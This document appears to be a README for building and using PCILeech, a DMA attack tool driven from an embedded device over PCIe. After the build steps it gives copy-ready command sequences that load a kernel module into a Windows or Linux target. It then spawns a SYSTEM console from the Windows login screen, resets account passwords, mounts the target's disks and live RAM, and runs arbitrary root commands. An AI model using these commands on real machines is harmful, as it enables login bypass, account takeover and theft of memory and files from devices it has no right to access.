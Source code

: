 # PCILeech setup
On the embedded platform

Install dependencies

```shell
sudo apt install libusb-1.0-0-dev build-essential pkgconf liblz4-dev libfuse-dev
```

```shell
mkdir PCILeech
# Clone Leechcore
git clone https://github.com/ufrisk/LeechCore.git
# Clone Leechcore-plugins
git clone https://github.com/rwk-git/LeechCore-plugins.git --branch generic --single-branch
# Clone MemProcFS
git clone https://github.com/ufrisk/MemProcFS.git
# Clone PCILeech
git clone https://github.com/ufrisk/pcileech.git

# Build the LeechCore library
pushd LeechCore/leechcore
make
popd
# Build the MemProcFS library
pushd MemProcFS/vmm
make
cd ../memprocfs
make
popd
# Build the LeechCore plugin
pushd LeechCore-plugins/leechcore_device_generic
make
popd
# Build PCI Leech
pushd pcileech/pcileech
make
cd ../files
cp ../../LeechCore-plugins/files/leechcore_device_generic.so .
popd
```

# PCILeech usage examples

In the embedded platform, go in the `PCILeech/pcileech/files` directory as that is where the executable and libraries are.

## Windows target

- Implant kernel module with `sudo ./pcileech kmdload -kmd WIN10_X64_3 -device 'generic://dev=/dev/pci-io'`
- Save the returned Kernel Module Address with `export KMD=0x7ffff000` here you manually have to type the address returned above
- List processes with `sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io'`
- Search for login process with `sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io' | grep -A 1 LogonUI.exe | sed 's/.*PID=\(.*\)|.*/\1/p' | tail -n1`
- Open a console with `sudo ./pcileech -kmd $KMD wx64_pscreate -0 0x$(sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io' | grep -A 1 LogonUI.exe | sed 's/.*PID=\(.*\)|.*/\1/p' | tail -n1) -s 'C:\Windows\System32\cmd.exe' -1 0x08000000 -2 0x1  -device 'generic://dev=/dev/pci-io'`
  Here a nested command is used to get the PID of the LogonUI.exe process in Windows, then a command line is opened
- Change the password with `net user <username> <password>` e.g., `net user admin 1234`
- This is a system (Windows jargon for *root*) console, you can do anything from here.

**Notes:** In the examples above I use `LogonUI.exe` as parent process, this is only available on the login screen, choose another process in other circumstances.

### Mount all Windows file systems and system RAM

- Create a mountpoint somewhere in your file system `mkdir -p /home/ubuntu/target`
- Mount the windows file systems and RAM with `sudo ./pcileech mount -mount /home/ubuntu/target/ -kmd $KMD -device 'generic://dev=/dev/pci-io'`

```
root@ENVME:~# ls /home/ubuntu/target/
files  liveram-kmd.raw	liveram-native.raw
# Read the RAM natively (through PCIe), for example here data is shown for the low addresses
root@ENVME:~# xxd /home/ubuntu/target/liveram-native.raw | head -n 1000
# Read the RAM through the kernel module, for example here these low addresses cannot be accessed, therefore read as 0
root@ENVME:~# xxd /home/ubuntu/target/liveram-kmd.raw | head -n 1000
# Check the taget file systems
root@ENVME:~# ls /home/ubuntu/target/files/c/
'$Recycle.Bin'		   PerfLogs		        Users
'$WinREAgent'		  'Program Files'	        Windows
'Documents and Settings'  'Program Files (x86)'         hiberfil.sys
 DumpStack.log		   ProgramData		        pagefile.sys
 DumpStack.log.tmp	   Recovery		        swapfile.sys
 Intel			  'System Volume Information'
```

## Linux target

- Implant kernel module with `sudo ./pcileech kmdload -kmd LINUX_X64_48 -device 'generic://dev=/dev/pci-io'`
- Save the returned Kernel Module Address with `export KMD=0x60000000` here you manually have to type the address returned above
- Send any command as root `sudo ./pcileech -kmd $KMD lx64_exec_root -s "echo '<user>:<password>' | chpasswd" -1 1 -device 'generic://dev=/dev/pci-io'`
  For example `sudo ./pcileech -kmd $KMD lx64_exec_root -s "echo 'reds:1234' | chpasswd" -1 1 -device 'generic://dev=/dev/pci-io'`
  Or turn off the computer (properly) `sudo ./pcileech -kmd $KMD lx64_exec_root -s "poweroff" -1 1 -device 'generic://dev=/dev/pci-io'`